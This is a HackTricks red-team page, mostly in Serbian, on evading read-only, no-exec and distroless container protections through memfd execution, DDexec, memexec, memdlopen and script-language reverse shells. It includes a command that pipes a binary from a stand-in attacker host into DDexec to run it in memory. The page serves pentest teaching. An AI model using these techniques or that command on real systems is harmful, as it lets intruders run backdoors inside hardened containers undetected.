 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Sve je češće pronaći linux mašine montirane sa **read-only (ro) zaštitom datotečnog sistema**, posebno u kontejnerima. To je zato što je pokretanje kontejnera sa ro datotečnim sistemom jednako lako kao postavljanje **`readOnlyRootFilesystem: true`** u `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Međutim, čak i ako je datotečni sistem montiran kao ro, **`/dev/shm`** će i dalje biti zapisiv, tako da je lažno da ne možemo ništa napisati na disk. Međutim, ova fascikla će biti **montirana sa no-exec zaštitom**, tako da ako preuzmete binarni fajl ovde, **nećete moći da ga izvršite**.

{% hint style="warning" %}
Iz perspektive crvenog tima, ovo otežava **preuzimanje i izvršavanje** binarnih fajlova koji već nisu u sistemu (kao što su backdoor-i ili enumeratori poput `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Napomena da sam pomenuo binarne fajlove, možete **izvršiti bilo koji skript** sve dok je interpreter unutar mašine, kao što je **shell skript** ako je `sh` prisutan ili **python** **skript** ako je `python` instaliran.

Međutim, ovo nije dovoljno da izvršite svoj binarni backdoor ili druge binarne alate koje možda trebate pokrenuti.

## Memory Bypasses

Ako želite da izvršite binarni fajl, ali datotečni sistem to ne dozvoljava, najbolji način da to uradite je **izvršavanje iz memorije**, jer **zaštite se ne primenjuju tamo**.

### FD + exec syscall bypass

Ako imate neke moćne skriptne engine unutar mašine, kao što su **Python**, **Perl**, ili **Ruby**, mogli biste preuzeti binarni fajl da ga izvršite iz memorije, sačuvati ga u deskriptoru datoteke u memoriji (`create_memfd` syscall), koji neće biti zaštićen tim zaštitama, a zatim pozvati **`exec` syscall** označavajući **fd kao datoteku za izvršavanje**.

Za ovo možete lako koristiti projekat [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Možete mu proslediti binarni fajl i on će generisati skript u naznačenom jeziku sa **binarno kompresovanim i b64 kodiranim** instrukcijama za **dekodiranje i dekompresiju** u **fd** kreiranom pozivom `create_memfd` syscall i pozivom **exec** syscall za njegovo pokretanje.

{% hint style="warning" %}
Ovo ne funkcioniše u drugim skriptnim jezicima poput PHP-a ili Node-a jer nemaju nikakav d**efault način da pozovu sirove syscalls** iz skripte, tako da nije moguće pozvati `create_memfd` da kreira **memory fd** za čuvanje binarnog fajla.

Štaviše, kreiranje **regular fd** sa datotekom u `/dev/shm` neće raditi, jer nećete moći da ga pokrenete zbog primene **no-exec zaštite**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) je tehnika koja vam omogućava da **modifikujete memoriju svog procesa** prepisivanjem njegovog **`/proc/self/mem`**.

Stoga, **kontrolišući asemblažni kod** koji se izvršava od strane procesa, možete napisati **shellcode** i "mutirati" proces da **izvrši bilo koji proizvoljni kod**.

{% hint style="success" %}
**DDexec / EverythingExec** će vam omogućiti da učitate i **izvršite** svoj **shellcode** ili **bilo koji binarni fajl** iz **memorije**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Za više informacija o ovoj tehnici proverite Github ili:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) je prirodan sledeći korak DDexec-a. To je **DDexec shellcode demonizovan**, tako da svaki put kada želite da **pokrenete drugi binarni fajl** ne morate ponovo pokretati DDexec, možete jednostavno pokrenuti memexec shellcode putem DDexec tehnike i zatim **komunicirati sa ovim demonima da prosledite nove binarne fajlove za učitavanje i izvršavanje**.

Možete pronaći primer kako koristiti **memexec za izvršavanje binarnih fajlova iz PHP reverz shell-a** na [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Sa sličnom svrhom kao DDexec, tehnika [**memdlopen**](https://github.com/arget13/memdlopen) omogućava **lakši način učitavanja binarnih fajlova** u memoriju za kasnije izvršavanje. Može čak omogućiti i učitavanje binarnih fajlova sa zavisnostima.

## Distroless Bypass

### Šta je distroless

Distroless kontejneri sadrže samo **najosnovnije komponente potrebne za pokretanje specifične aplikacije ili servisa**, kao što su biblioteke i zavisnosti u vreme izvršavanja, ali isključuju veće komponente poput menadžera paketa, shell-a ili sistemskih alata.

Cilj distroless kontejnera je da **smanji površinu napada kontejnera eliminisanjem nepotrebnih komponenti** i minimiziranjem broja ranjivosti koje se mogu iskoristiti.

### Reverz Shell

U distroless kontejneru možda **nećete ni pronaći `sh` ili `bash`** da dobijete regularni shell. Takođe nećete pronaći binarne fajlove kao što su `ls`, `whoami`, `id`... sve što obično pokrećete u sistemu.

{% hint style="warning" %}
Stoga, **nećete** moći da dobijete **reverz shell** ili **enumerišete** sistem kao što obično radite.
{% endhint %}

Međutim, ako kompromitovani kontejner pokreće, na primer, flask web, tada je python instaliran, i stoga možete dobiti **Python reverz shell**. Ako pokreće node, možete dobiti Node rev shell, i isto važi za većinu **scripting jezika**.

{% hint style="success" %}
Korišćenjem scripting jezika mogli biste **enumerisati sistem** koristeći mogućnosti jezika.
{% endhint %}

Ako nema **`read-only/no-exec`** zaštita mogli biste iskoristiti svoj reverz shell da **pišete u fajl sistem vaše binarne fajlove** i **izvršite** ih.

{% hint style="success" %}
Međutim, u ovakvim kontejnerima ove zaštite obično postoje, ali mogli biste koristiti **prethodne tehnike izvršavanja u memoriji da ih zaobiđete**.
{% endhint %}

Možete pronaći **primere** kako da **iskoristite neke RCE ranjivosti** da dobijete scripting jezike **reverz shell-ove** i izvršite binarne fajlove iz memorije na [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **hacking karijeru** i hakovanje nehakovanog - **zapošljavamo!** (_potrebno je tečno pisano i govorno poljski_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hacking trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
